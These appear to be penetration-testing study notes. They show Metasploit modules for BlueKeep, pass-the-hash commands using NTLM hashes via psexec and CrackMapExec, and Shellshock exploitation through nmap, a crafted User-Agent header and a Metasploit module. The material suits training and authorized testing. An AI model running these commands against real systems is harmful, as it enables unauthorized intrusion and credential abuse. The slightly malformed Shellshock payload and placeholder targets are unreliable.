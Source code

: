 - **Exploiting Windows CVE-2019-0708 RDP Vulnerability (BlueKeep):**
    
    - BlueKeep is a remote code execution vulnerability in the Windows Remote Desktop Protocol. It allows attackers to gain access to kernel memory. Affected versions: Windows XP, Vista, 7, Server 2008 & 2008 R2.
        

```
msf5 > use scanner/rdp/cve_2019_0708_bluekeep

msf5 > use windows/rdp/cve_2019_0708_bluekeep_rce
```

N.B.: Kernel exploits may crash the system. Use with caution, and avoid during real-world engagements.

- **Pass-the-Hash Attacks:**
    
    - This technique captures NTLM hashes or clear-text passwords and uses them for legitimate authentication without cracking the password.
        
    - **Tools:** Metasploit PsExec module, CrackMapExec
        

```
msf6 > use windows/http/badblue_passthru # extract NTLM hashes from BadBlue vulnerability

msf6 > use windows/smb/psexec # pass-the-hash exploit

crackmapexec smb TargetIP@ -u user -p "NTLMHash"
```

- **Frequently Exploited Linux Services:**
    
    - **Apache (TCP ports 80/443):** Open-source cross-platform web server.
        
    - **SSH (TCP port 22)**
        
    - **FTP (TCP port 21)**
        
    - **Samba (TCP port 445):** SMB implementation for Linux, allows interoperability with Windows systems.
        
- **Vulnerability Analysis: Bash CVE-2014-6271 (Shellshock):**
    
    - Shellshock is a family of vulnerabilities in the Bash shell allowing remote command execution. Apache servers running CGI scripts are especially at risk.
        
- **Exploitation Process:**
    

```
git clone # (repository not specified in original)
nmap -sV TargetIP@ --script=http-shellshock --script-args "http-shellshock.uri=/script.cgi"

# Manual exploitation using Burp:
# Modify User-Agent header to: () { ;; }; echo; echo; /bin/bash -c 'command'

# MSF automated exploitation:
msf6 > use multi/http/apache_mod_cgi_bash_env_exec
```
